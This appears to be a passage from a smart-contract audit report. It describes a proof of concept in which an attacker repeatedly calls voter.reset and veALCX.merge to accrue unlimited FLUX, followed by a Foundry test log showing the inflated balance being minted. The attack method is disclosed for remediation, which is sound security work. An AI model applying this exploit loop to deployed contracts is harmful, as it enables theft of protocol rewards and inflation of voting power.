 ```solidity
       
    }
```

In this POC, I use 10 * 10**18 BPT token. 
The attacker create 10 tokenIds and repeately call reset(tokenId) and merge 

The log shows: 

```
[PASS] testFluxAccrualUnlimited_Hacked() (gas: 9917085)
Logs:
  Start to create 4 tokenIds by calling createLock with _maxLockEnabled is false and value is 1e18 BPT
  index: 0
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 21621416793325425
  Call  veALCX.merge() to merge tokenId
  index: 1
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 64864250380317202
  Call  veALCX.merge() to merge tokenId
  index: 2
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 129728500760634405
  Call  veALCX.merge() to merge tokenId
  index: 3
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 216214167934617960
  Call  veALCX.merge() to merge tokenId
  index: 4
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 324321251901926940
  Call  veALCX.merge() to merge tokenId
  index: 5
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 454049752662902272
  Call  veALCX.merge() to merge tokenId
  index: 6
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 605399670217203030
  Call  veALCX.merge() to merge tokenId
  index: 7
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 778371004565170140
  Call  veALCX.merge() to merge tokenId
  index: 8
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 972963755706462675
  Call  veALCX.merge() to merge tokenId
  LockedBalance of tokenId1 lock.amount: 10000000000000000000  
  LockedBalance of tokenId1 _lock.end: 1715817600  
  LockedBalance of tokenId1 _lock.cooldown: 1715817600  
  LockedBalance of tokenId1 _lock.maxLockEnabled: false  
  unclaimedFlux of tokenId1: 1189177923641421562
  After having unclaimFlux, attacker can use to boost voting power or mint Flux token
  Flux token balance of the attacker: 0
  Call unclaimedFlux to mint Flux token for the attacker
  After claiming: Flux token balance of the attacker: 1189177923641421562

```
